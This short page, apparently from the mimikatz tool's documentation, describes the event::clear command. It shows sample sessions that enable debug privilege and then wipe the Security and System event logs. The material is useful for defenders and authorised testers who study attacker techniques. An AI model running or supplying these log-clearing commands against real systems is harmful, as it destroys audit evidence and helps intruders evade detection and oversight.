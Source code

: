 # clear

It clears a specified event log. It has the following command line argument:

* `/log`: The event log to clear. The default one is **Security**

```text
mimikatz # privilege::debug
Privilege '20' OK
```

```text
mimikatz # event::clear
Using "Security" event log :
- 3996 event(s)
- Cleared !
- 0 event(s)
```

```text
mimikatz # event::clear /log:System
Using "System" event log :
- 818 event(s)
- Cleared !
- 0 event(s)
```

